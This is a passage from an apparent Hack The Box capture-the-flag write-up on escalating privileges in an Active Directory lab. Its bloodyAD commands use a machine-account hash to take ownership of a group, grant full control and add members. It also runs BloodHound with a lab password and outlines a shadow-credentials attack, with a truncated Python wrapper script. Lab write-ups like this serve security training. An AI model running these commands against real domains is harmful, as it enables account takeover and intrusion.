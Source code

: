 Checking bloodhound again shows that `haze-it-backup$` has permissions on `Support_Services`.
![haze8](/assets/img/haze8.png)

Let's add mark and backup to it and run bloodhound again.
```bash
bloodyAD --host haze.htb -u 'haze-it-backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' set owner Support_Services 'haze-it-backup$'
bloodyAD --host haze.htb -u 'haze-it-backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' add genericAll Support_Services 'haze-it-backup$'
bloodyAD --host haze.htb -u 'haze-it-backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' add groupMember Support_Services 'haze-it-backup$'
bloodyAD --host haze.htb -u 'haze-it-backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' add groupMember Support_Services 'mark.adams'
bloodhound-ce-python -c All -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -ns $(cat ip.txt) --zip -d haze.htb -dc dc01.haze.htb
```

Nothing shows up on bloodhound, but now bloodyAd shows that `haze-it-backup$` has write on the `msDS-KeyCredentialLink` attribute of edward.martin.
```bash
distinguishedName: CN=Edward Martin,CN=Users,DC=haze,DC=htb
msDS-KeyCredentialLink: WRITE
```

We can exploit that with pywhisker + certipy. And that gives us edward.martin.
```bash
#!/usr/bin/env python -W
import subprocess
import argparse


def main():
    parser = argparse.ArgumentParser(description="pkinit doesnt work")
    parser.add_argument(
        "-d", "--domain", required=True, help="Target AD domain (e.g. tombwatcher.htb)"
    )
    parser.add_argument(
        "-u", "--user", required=True, help="Username to authenticate (e.g. sam)"
    )
    parser.add_argument("-t", "--target", required=True, help="Target acc")
    parser.add_argument(
        "-p", "--password", help="Password or hash, hash needs to start with ':'"
    )

    args = parser.parse_args()
```